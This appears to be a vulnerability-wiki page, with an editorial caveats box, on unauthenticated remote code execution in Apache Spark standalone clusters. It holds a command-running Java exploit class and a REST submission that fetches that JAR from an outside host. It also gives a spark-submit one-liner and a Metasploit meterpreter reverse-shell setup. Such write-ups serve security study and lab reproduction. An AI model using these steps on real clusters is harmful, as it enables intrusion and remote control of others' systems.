



# Apache Spark 未授权访问漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：REST6066显式可用或RPC7077未受有效保护、worker可拉取JAR并运行，worker日志可访问
- 证据范围：解释提交在master、执行及日志在worker，区分两端入口，有用；不能把正常作业代码执行本身称设计漏洞。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 未启动ACL与未认证混为一谈，UI ACL、RPC共享密钥、REST访问控制应分开
- 无影响版本，REST默认开启应按历史版本限定
- spark.master写6066混用REST与Spark RPC地址，需说明client fallback及实际服务配置
- msf srvhost值多1；外部JAR来源/构建依赖不完整
- Runtime.exec非shell，waitFor先于读取输出可能阻塞；示例会实际调度/生成日志有副作用

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Apache
Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

二、漏洞影响
------------

三、复现过程
------------

### 方法一

该漏洞本质是未授权的用户可以向管理节点提交一个应用，这个应用实际上是恶意代码。

提交方式有两种：

-   利用REST API
-   利用submissions网关（集成在7077端口中）

应用可以是Java或Python，就是一个最简单的类，

    import java.io.BufferedReader;
    import java.io.InputStreamReader;

    public class Exploit {
      public static void main(String[] args) throws Exception {
        String[] cmds = args[0].split(",");

        for (String cmd : cmds) {
          System.out.println(cmd);
          System.out.println(executeCommand(cmd.trim()));
          System.out.println("==============================================");
        }
      }

      // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
      private static String executeCommand(String command) {
        StringBuilder output = new StringBuilder();

        try {
          Process p = Runtime.getRuntime().exec(command);
          p.waitFor();
          BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

          String line;
          while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
          }
        } catch (Exception e) {
          e.printStackTrace();
        }

        return output.toString();
      }
    }

将其编译成JAR，放在任意一个HTTP或FTP上，如

`https://download.0-sec.org/Web安全/Apache Spark/Apache Spark 未授权访问漏洞.jar`。

#### 用REST API方式提交应用

standalone模式下，master将在6066端口启动一个HTTP服务器，我们向这个端口提交REST格式的API：

    POST /v1/submissions/create HTTP/1.1
    Host: www.0-sec.org:6066
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Content-Type: application/json
    Connection: close
    Content-Length: 680

    {
      "action": "CreateSubmissionRequest",
      "clientSparkVersion": "2.3.1",
      "appArgs": [
        "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
      ],
      "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
      "environmentVariables": {
        "SPARK_ENV_LOADED": "1"
      },
      "mainClass": "Exploit",
      "sparkProperties": {
        "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
        "spark.driver.supervise": "false",
        "spark.app.name": "Exploit",
        "spark.eventLog.enabled": "true",
        "spark.submit.deployMode": "cluster",
        "spark.master": "spark://your-ip:6066"
      }
    }

其中，`spark.jars`即是编译好的应用，mainClass是待运行的类，appArgs是传给应用的参数。

返回的包中有submissionId，然后访问`http://www.0-sec.org:8081/logPage/?driverId={submissionId}&logType=stdout`，即可查看执行结果：

注意，提交应用是在master中，查看结果是在具体执行这个应用的slave里（默认8081端口）。实战中，由于slave可能有多个。

#### 利用submissions网关

如果6066端口不能访问，或做了权限控制，我们可以利用master的主端口7077，来提交应用。

方法是利用Apache Spark自带的脚本`bin/spark-submit`：

    bin/spark-submit --master spark://www.0-sec.org:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id

如果你指定的master参数是rest服务器，这个脚本会先尝试使用rest
api来提交应用；如果发现不是rest服务器，则会降级到使用submission
gateway来提交应用。

查看结果的方式与前面一致。

### 方法二

    msf5> use exploit/linux/http/spark_unauth_rce
    msf5> set payload java/meterpreter/reverse_tcp
    msf5> set rhost 被攻击ip
    msf5> set rport 6066
    msf5> set lhost 攻击ip
    msf5> set lport 4444
    msf5> set srvhost 1攻击ip
    msf5> set srvport 8080
    msf5> exploit

参考链接
--------

> https://vulhub.org/\#/environments/spark/unacc/
